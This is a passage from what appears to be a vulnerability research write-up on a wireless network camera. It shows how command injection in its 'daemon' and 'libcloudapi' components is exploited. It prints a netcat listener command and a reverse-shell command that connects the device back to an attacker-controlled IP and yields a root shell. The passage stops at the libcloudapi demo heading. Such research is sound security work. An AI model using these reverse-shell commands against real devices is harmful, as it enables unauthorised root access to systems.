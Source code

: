```
nc -lvp 123
```

This will set up a socket on port 123 that listens for incoming connections. Next, we exploit the command injection we have on the device to set up the reverse shell, the following command is sufficient:

```
nc 192.168.10.20 123 -e ash
```

This command will execute **ash** (providing us with a shell), and will communicate with the attacker controlled device at the specified IP and port which we set up earlier. Executing this command will yield a successful connection to the target device with a shell running at *root* privilege!

## daemon

Here is the demo of the *daemon* command injection being exploited to get a reverse shell:

![daemon_cmd_injection.png](/assets/images/analysing_a_wireless_network_camera_part_2/daemon_cmd_injection.png)

## libcloudapi

And here is the demo of the *libcloudapi* command injection being exploited to get a reverse shell:
